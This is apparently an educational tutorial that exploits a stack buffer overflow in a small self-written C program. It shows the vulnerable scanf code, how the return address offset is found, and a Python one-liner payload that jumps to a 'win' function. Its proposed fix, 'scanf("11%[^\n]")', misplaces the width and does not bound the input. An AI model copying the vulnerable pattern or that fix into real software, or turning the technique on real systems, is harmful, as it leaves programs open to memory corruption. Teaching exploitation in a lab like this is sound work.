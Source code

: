 # Return Oriented Programming

## Introduction

When we try to access (read from or write to) a memory address that isn't
actually mapped to our process, the kernel sends a SIGSEGV (Segmentation
Fault), (usually) killing our process.

```c
int main() {
    // create a pointer to the address 0 and dereference it
    *((int*)0) = 0;
}
```

Note that `dmesg` helpfully tells us the position of the instruction pointer
`ip` (where the segfault occurred).

```sh
gcc segv.c

./a.out
# Segmentation fault

sudo dmesg
# [ 2342.736665] a.out[758]: segfault at 7f4b9bfea620 ip 00007f4b9bfea620 sp 00007ffdcf0a0778 error 15 in ld-2.31.so[7f4b9bfea000+1000]
```

## Buffer Overflow

```c
#include <stdio.h>
#include <string.h>

#define SECRET_PHRASE "bed bananas"

void win() {
    printf("You may now get yourself a piece of the great cake!\n");
}

void main(int argc, char **argv) {
    char pass[12] = {0};
    printf("What is the secret phrase?\n");
    scanf("%[^\n]", pass);
    if (0 == (strncmp(SECRET_PHRASE, pass, sizeof(SECRET_PHRASE)))) {
        win();
    } else {
        printf("The secret phrase is not: %s\n", pass);
    }
}
```

The above code is susceptible to a buffer overflow attack.
Scanf reads the entire input line into `pass` buffer, input longer than 12
(ASCII) characters will overwrite memory further down (or up, considering that
on x86 the stack grows from high to low memory addresses) the stack.

```c
scanf("%[^\n]", pass);
```

A more correct version would be:

```c
scanf("11%[^\n]", pass);
```

## Stack Canaries

GCC with its default options puts some sort of security check in place.

```sh
gcc exploitable.c
printf 'A%.0s' {1..40} | ./a.out

# What is the secret phrase?
# The secret phrase is not: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
# *** stack smashing detected ***: terminated
# Aborted

sudo dmesg
# [ 3491.530583] a.out[954]: segfault at 7f0041414141 ip 00007f0041414141 sp 00007fffcc4bdc20 error 14 in libc-2.31.so[7f8bfc9c3000+22000]
```

So let's compile with `clang` instead.

## Locating the Return Address

The return address is located somewhere at the bottom of the stack frame.
When returning, the return address is loaded into the IP register and execution
continues at that address.

ASCII 'A' is hex 0x41:

```sh
clang exploitable.c
printf 'A%.0s' {1..40} | ./a.out

# What is the secret phrase?
# The secret phrase is not: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
# Segmentation fault

sudo dmesg
# [ 3926.193998] a.out[954]: segfault at 7f0041414141 ip 00007f0041414141 sp 00007fffcc4bdc20 error 14 in libc-2.31.so[7f8bfc9c3000+22000]
```

By playing around with the amount of 'A's we send, we can figure out that after
36 of them, the return address begins.

## Address of the Win Function

To make it easy for us we assume that the binary executable is not "stripped",
meaning that information about function names is still intact.

This is the function we would like to "return" to:

```sh
objdump -d -M intel_syntax a.out

# ... SNIP ...
#
# 0000000000401160 <win>:
#   401160:       55                      push   rbp
#   401161:       48 89 e5                mov    rbp,rsp
#   401164:       48 bf 04 20 40 00 00    movabs rdi,0x402004
#   40116b:       00 00 00
#   40116e:       b0 00                   mov    al,0x0
#   401170:       e8 cb fe ff ff          call   401040 <printf@plt>
#   401175:       5d                      pop    rbp
#   401176:       c3                      ret
#   401177:       66 0f 1f 84 00 00 00    nop    WORD PTR [rax+rax*1+0x0]
#   40117e:       00 00
#
# ... SNIP ...
```

## Crafting a Payload

Using Python we can easily craft a malicious input string...

```sh
python3 -c 'print("A" * 36 + "\x60\x11\x40\x00\x00")'
```

...where `6011400000` is the address of the `win` function.

Note that we had to convert the endianness to match that of our CPU.

Or if you're scared of snakes, maybe try Clojure:

```sh
clojure -e "(println (apply str (concat (repeat 36 \A) (map char '(0x60 0x11 0x40 0x00 0x00)))))"
```

## Read, Set, Exploit!

```sh
python3 -c 'print("A" * 36 + "\x60\x11\x40\x00\x00")' | ./a.out
What is the secret phrase?
The secret phrase is not: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`@
You may now get yourself a piece of the great cake!
Segmentation fault
```

As you can see from the output, the `win` function was run, between `main`
returning and a segfault.
